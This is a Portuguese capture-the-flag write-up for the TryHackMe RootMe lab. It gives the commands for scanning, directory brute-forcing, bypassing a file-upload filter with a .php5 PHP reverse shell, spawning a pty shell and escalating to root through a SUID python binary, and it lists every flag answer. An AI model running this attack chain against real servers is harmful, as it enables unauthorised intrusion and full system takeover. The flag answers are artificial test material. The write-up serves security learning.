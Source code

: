 CTF ROOTME

Ao gerar o ip precisamos dar um nmap para ver as informacoes do ip

    sudo nmap -sS "ip"
    
verificando assim, que tinham duas portas abertas ssh 22 e apache 80 http 
para verificar a versao do apache:

    sudo nmap -sV -p80 "ip"

apos entregar essas flags tinhamos que usar a ferramenta Gobuster com a wordlista "common.txt"

    gobuster dir -u http://10.10.136.202/ -w /usr/share/dirb/wordlists/common.txt 

assim encontrando o diretorio /panel/ ao acessar esse diretorio tinha uma opcao para enviar um arquivo, ao procurar um reverseshell para enviar um arquivo PHP encontrava-se um .php que dava acesso ao servidor, ao configurar o arquivo nao era possivel enviar um ".php" e apenas mudando para ".php5" era possivel enviar o arquivo e criando uma porta para o meu terminal

    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

ao entrar no servidor dei o seguinte comando em python:

    python -c "import pty;pty.spawn('/bin/bash')"

para acessar a raiz dei o comando:

     cd ~

encontrava-se o arquivo user.txt, ao dar cat user.txt 

    THM{y0u_g0t_a_sh3ll}

agora a gente precisava da permissao root pelas flags ele informou o SUID e ao procurar o arquivo "diferente" era possivel encontrar o 

    /usr/bin/python

ao acessar o site gtfobins procurava o python SUID e executava o comando 

    ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

assim sendo possivel acessar a pasta root e capturando a ultima flag

    THM{pr1v1l3g3_3sc4l4t10n}


capturando todas as flags do desafio RootMe

FLAGS

    Flag 1: 2
    Flag 2: 2.4.29
    Flag 3: ssh
    Flag 4: /panel/
    Flag 5: THM{y0u_g0t_a_sh3ll}
    Flag 6: /usr/bin/python
    Flag 7: THM{pr1v1l3g3_3sc4l4t10n}



